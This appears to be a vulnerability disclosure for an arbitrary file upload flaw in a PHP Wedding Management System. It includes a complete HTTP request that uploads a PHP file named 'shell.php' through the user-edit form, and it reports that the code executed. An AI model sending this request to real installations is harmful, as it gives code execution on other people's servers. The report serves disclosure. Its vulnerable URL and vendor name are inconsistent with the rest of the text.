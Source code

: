 # WeddingManagement System v1.0 by codeastr.com has arbitrary code execution (RCE)

vendor: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability url: http://ip/Wedding-Management/admin/photos_edit.php?id=37

Loophole location：The editing function of "User Management" module in the background management system-- > there is an arbitrary file upload vulnerability (RCE) in the picture upload point of "users_edit.php" file.

Click "Edit User" to save

Request package for file upload：

```sql
POST /Wedding-Management/admin/users_edit.php?id=8 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/Wedding-Management/admin/users_edit.php?id=8
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------11784258372980
Content-Length: 1069

-----------------------------11784258372980
Content-Disposition: form-data; name="submit"


-----------------------------11784258372980
Content-Disposition: form-data; name="profile_picture"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------11784258372980
Content-Disposition: form-data; name="firstname"

Pharell
-----------------------------11784258372980
Content-Disposition: form-data; name="lastname"

Colin
-----------------------------11784258372980
Content-Disposition: form-data; name="email"

pharell@mail.com
-----------------------------11784258372980
Content-Disposition: form-data; name="username"

pcolin
-----------------------------11784258372980
Content-Disposition: form-data; name="gender"

m
-----------------------------11784258372980
Content-Disposition: form-data; name="address"

115 Test Street
-----------------------------11784258372980
Content-Disposition: form-data; name="designation"

1
-----------------------------11784258372980--
```

The files will be uploaded to this directory \admin\upload\users\

![image](https://user-images.githubusercontent.com/54017627/167980507-58bdf106-5b54-4ed9-96fd-245017d07f15.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/167980470-d13e8217-4197-4074-8840-7f5146f33aa9.png)
